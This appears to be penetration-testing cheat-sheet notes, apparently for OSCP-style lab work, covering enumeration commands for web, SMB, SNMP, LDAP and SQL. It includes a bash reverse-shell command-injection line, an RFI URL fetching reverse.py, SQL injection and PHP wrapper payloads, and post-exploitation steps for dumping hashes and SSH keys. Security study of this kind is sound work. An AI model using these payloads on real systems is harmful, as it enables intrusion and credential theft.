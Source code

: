 # Useful Commands

<pre><code>☑ ffuf -w /opt/SecLists/Discovery/Web-Content/big.txt -u http://ip-address -recursion -recursion-depth 2
☐ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -u http://ip-address -e .php,.log,.txt,.pl,.cgi,.pdf,.sh, .jsp, .do, .conf, .config
<strong>
</strong><strong>Fuzz LFI 
</strong>☐ ffuf -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://ip-address ☐ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt:FUZZ -u "http://ip-address/blank-page.php?FUZZ=test" -fs 0 ☐ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt:FUZZ -u "http://ip-address/evil.php?FUZZ=/etc/passwd"" -fs 0
</code></pre>

```
 RPC  
  ☐ rpcclient --user="" --command=enumprivs -N $ip
  ☐ rpcinfo -p $ip
  ☐ MS03-026 Microsoft RPC DCOM Interface Overflow (Critical)
  
 SMTP
  ☐ nc $ip 25 -vvv
  ☐ smtp-user-enum -M RCPT -U /usr/share/wordlists/metasploit/unix_users.txt -t $ip
  ☐ smtp-user-enum -M VRFY -U /opt/SecLists/Discovery/names.txt -t $ip
  ☐ smtp-user-enum -M EXPN -D example.com /usr/share/wordlists/metasploit/unix_users.txt -t $ip
  
 SNMP
  ☐ python3 snmpbrute.py -t $ip -p 161 -f /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt
  ☐ hydra -P /opt/SecLists/Discovery/SNMP-common-snmp/community-strings.txt -v $ip snmp
  ☐ snmpcheck -t $ip -c public
  ☐ snmpenum -t $ip
  ☐ snmpwalk -v2c -c $community_string $ip >> snmpv2c.txt
  ☐ snmpwalk -c public -v1 $ip 1 | grep hrSWRunName | cut -d\*\* -f 
  ☐ snmpbulkwalk -c public -v2c $ip >> snmpbulk.txt
  
 NFS 
  ☐ nmap -sV --script=nfs-showmount $ip
  ☐ shoutmount -e $ip
  
 LDAP
  ☐ ldapsearch -h $ip -p $port -x -s base
  ☐ ldapsearch -x -h $ip -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"

SQL 
	MSSQL
	☐ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth 
	☐ select * from sys.sysusers;
	
	MYSQL
	☐ mysql -u root -p'root' -h $ip -P 3306 

 Automated Web Scans
	☐ autorecon $ip --nmap-append="--min-rate=2500" --exclude-tags="top-100-udp-ports" --dirbuster.threads=30 -vv
	☐ nikto -h http://192.168.179.132
	☐ nikto -ask=no -h http://$ip 2>&1
	☐ whatweb -a 3 $ip
	☐ Zap Crawler
	☐ wpscan --url http://192.168.50.244 --enumerate p --plugins-detection aggressive
	
LFI / RFI
  ☐ Windows LFI 
        ☐ C:\Windows\System32\drivers\etc\hosts
        ☐ C:\inetpub\logs\LogFiles\W3SVC1\
        ☐ C:\inetpub\wwwroot\web.config
  ☐ RFI
        ☐   hxxp://target.com/vuln?page=http://192.168.50.51/reverse.py
        
SQL Injection
  ☐ ' OR 1=1 -- 1 UNION SELECT first_name, password FROM users #


Command Injection
  ☐ http://target.com/vuln?ping=192.168.50.51 ; bash -i >& /dev/tcp/192.168.50.51/1337 0>&1    
  
/.git/
	wget -r http://$ip/.git
	git log
	git show
	git show <commit hash> *80ad5fe45438bb1b9cc5932f56af2e9be7e96046*
	git diff
	git fetch

Crying for Help
	☐ telnet -d -d -d -d -d $ip $port
	☐ for file in $(ls /opt/SecLists/Discovery/Web-Content); do ffuf -u http://$ip/FUZZ -w /opt/SecLists/Discovery/Web-Content/$file -e .conf,.php,.sh,.txt ; done		
	☐ update /etc/host. Ip address with computer name, etc.		
	☐ https://securing.dev/posts/hacking-the-oscp-recon/
	
```

Service Scanning

```
WebApp
  ☐	ffuf 
  ☐	gobuster
  ☐	Nessus
  ☐   Nikto
  ☐   wpscan
  ☐   dotdotpwn
  ☐   view source 
  ☐   davtest\cadevar
  ☐   droopscan
  ☐   joomscan
  ☐   LFI\RFI Test
  
Linux\Windows
  ☐   snmpwalk -c public -v1 ipaddress 1
  ☐   smbclient -L //ipaddress
  ☐   enum4linux ipaddress
  ☐   showmount -e ipaddress port
  ☐   rpcinfo
  ☐   Enum4Linux

Anything Else
  ☐   nmap scripts (locate *nse* | grep servicename)
  ☐   hydra
  ☐  MSF Aux Modules
  ☐  Download the softward

  ☐ page=data://text/plain,<?php%20echo%20system('ls');?>"
  ☐ page=php://filter/convert.base64-encode/resource=admin.php
```

Exploitation ☐ Gather Version Numbes ☐ Searchsploit ☐ Default Creds ☐ Creds Previously Gathered ☐ Download the software

Post Exploitation

```
Linux
  ☐   linux-local-enum.sh
  ☐   linuxprivchecker.py
  ☐   linux-exploit-suggestor.sh
  ☐   unix-privesc-check.py

Windows
  ☐   wpc.exe
  ☐   windows-exploit-suggestor.py
  ☐   windows_privesc_check.py
  ☐  	windows-privesc-check2.exe
```

Priv Escalation ☐ acesss internal services (portfwd) ☐ add account ☐ https://guif.re/windowseop - Windows Privilege Escalation ☐ https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS - WinPEAS ☐ Unquoted Paths ☐ DLL Hijacking ☐ Insecure backups

Lateral Movement ☐ Mimikatz - Know the command! ☐ Password Hashes (Hashcat, Pass-The-Hash, Ticket technique) - impacket-psexec, evil-winrm, or xfreerdp

Windows ☐ List of exploits

Linux ☐ sudo su ☐ KernelDB ☐ Searchsploit

Final ☐ Screenshot of IPConfig\WhoamI ☐ Copy proof.txt ☐ Dump hashes ☐ Dump SSH Keys ☐ Delete files
